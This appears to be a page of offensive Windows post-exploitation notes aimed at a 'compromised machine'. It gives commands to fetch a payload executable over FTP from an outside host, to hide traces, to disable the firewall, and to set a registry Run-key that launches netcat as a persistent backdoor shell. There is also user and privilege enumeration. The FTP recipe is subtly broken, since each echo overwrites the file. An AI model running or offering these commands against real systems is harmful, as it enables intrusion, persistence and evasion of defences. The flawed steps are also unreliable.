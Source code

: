 In cases where you want to upload a file onto the compromised machine but you don't have an interactive shell where you simply upload the file, you can write it onto the compromised machine using FTP, feeding it one line at a time.  

**Create a blank file to write commands onto**
ftp -s:ftp_commands.txt

**Echo each command (you can also do this all in one line):**

echo open 10.9.122.8>ftp_commands.txt
echo anonymous>ftp_commands.txt
echo blah>ftp_commands.txt
echo binary>ftp_commands.txt
echo get met8888.exe>ftp_commands.txt
echo bye>ftp_commands.txt

*Instead of ftp_commands.txt, use a unique name, hide the file in a datastream, or hide the file in the folder. aka don't be obvi

### Query state of Firewall, Disable Firewall, Allow a Service Through

**Query state of firewall**:

netsh firewall show state

**Disable firewall**

netsh.exe firewall set opmode mode=disable profile=all

**Allow service through firewall**

netsh.exe firewall set portopening tcp 123 MYSERVICE enable all

netsh.exe firewall set allowedprogram C:\MYPROGRAM.exe

HKLM\\software\\microsoft\\windows\\ currentversion\\run –d ‘C:\windows\system32\nc.exe -Ldp 4444 -e cmd.exe’ –v netcat

netsh firewall set allowedprogram c:\nc.exe allow_nc ENABLE


**Query current user and privilege information**

whoami

whoami /all

whoami /user

whoami /groups

whoami /priv

**[Users]**

net users: list users

**For more info on a user**:

net user <username> (for local user)
  